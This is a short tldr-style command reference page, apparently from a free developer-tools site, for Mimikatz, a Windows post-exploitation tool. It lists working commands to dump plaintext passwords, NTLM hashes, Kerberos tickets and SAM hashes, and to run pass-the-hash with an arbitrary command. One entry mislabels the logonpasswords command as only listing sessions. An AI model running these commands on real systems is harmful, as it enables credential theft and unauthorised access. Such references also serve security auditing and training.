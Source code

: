```yaml
---
title: 'Mimikatz - Extract Windows Credentials | Online Free DevTools by Hexmos'
name: mimikatz
path: '/freedevtools/tldr/windows/mimikatz/'
canonical: 'https://hexmos.com/freedevtools/tldr/windows/mimikatz/'
description: 'Extract Windows credentials with Mimikatz, a powerful post-exploitation tool. Dump passwords, hashes, and Kerberos tickets. Free online tool, no registration required.'
category: windows
keywords:
  - windows credential extraction
  - mimikatz password dumper
  - windows password recovery
  - windows hash extraction
  - kerberos ticket dump
  - local sam database dump
  - windows post exploitation
  - credential theft windows
  - windows security auditing
  - windows privilege escalation
features:
  - Dump plaintext passwords from memory
  - Extract NTLM hashes from Windows
  - Export Kerberos tickets to a file
  - Manipulate user tokens for privilege escalation
  - Dump local SAM database hashes
ogImage: 'https://hexmos.com/freedevtools/site-banner.png'
twitterImage: 'https://hexmos.com/freedevtools/site-banner.png'
---
```


# mimikatz

> Interact with Windows credentials, perform credential dumping, token manipulation, and more.
> Requires administrator privileges and typically runs on Windows.
> More information: <https://github.com/gentilkiwi/mimikatz>.

- Run mimikatz in interactive mode:

`mimikatz`

- Enable debug privileges (needed for most operations):

`mimikatz "privilege::debug"`

- List available logon sessions:

`mimikatz "sekurlsa::logonpasswords"`

- Dump plaintext passwords, NTLM hashes, and Kerberos tickets from memory:

`mimikatz "sekurlsa::logonpasswords"`

- Pass-the-Hash with a specific NTLM hash and launch a command:

`mimikatz "sekurlsa::pth /user:{{username}} /domain:{{domain}} /ntlm:{{hash}} /run:{{cmd}}"`

- Dump local SAM database hashes:

`mimikatz "lsadump::sam"`

- Extract Kerberos tickets and export to a file:

`mimikatz "kerberos::list /export"`

- Exit mimikatz:

`exit`
